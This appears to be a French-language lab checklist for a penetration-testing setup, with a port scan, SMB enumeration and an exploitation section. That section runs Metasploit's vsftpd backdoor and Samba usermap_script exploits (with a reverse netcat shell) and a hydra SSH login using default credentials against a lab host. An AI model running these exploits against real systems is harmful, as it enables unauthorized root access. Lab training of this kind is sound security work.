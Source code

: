 ### Test 2 : Scan de ports
Depuis Kali :
```bash
nmap -sS -sV -p- 192.168.100.20
```
- [ ] Scan complète avec succès
- [ ] Services identifiés correctement
- [ ] Versions détectées

### Test 3 : Énumération SMB
Depuis Kali :
```bash
enum4linux -a 192.168.100.20
```
- [ ] Information SMB récupérée
- [ ] Utilisateurs énumérés
- [ ] Partages listés

---

## 💣 8. Tests d'Exploitation

### Test 1 : vsftpd backdoor
Depuis Kali :
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```
- [ ] Exploit lancé sans erreur
- [ ] Session shell obtenue
- [ ] Commande `id` retourne uid=0 (root)

### Test 2 : Samba usermap_script
Depuis Kali :
```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOST 192.168.100.20
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.100.10
exploit
```
- [ ] Exploit réussit
- [ ] Shell obtenu

### Test 3 : Brute-force SSH
Depuis Kali :
```bash
hydra -l msfadmin -p msfadmin ssh://192.168.100.20
```
- [ ] Mot de passe trouvé : msfadmin

---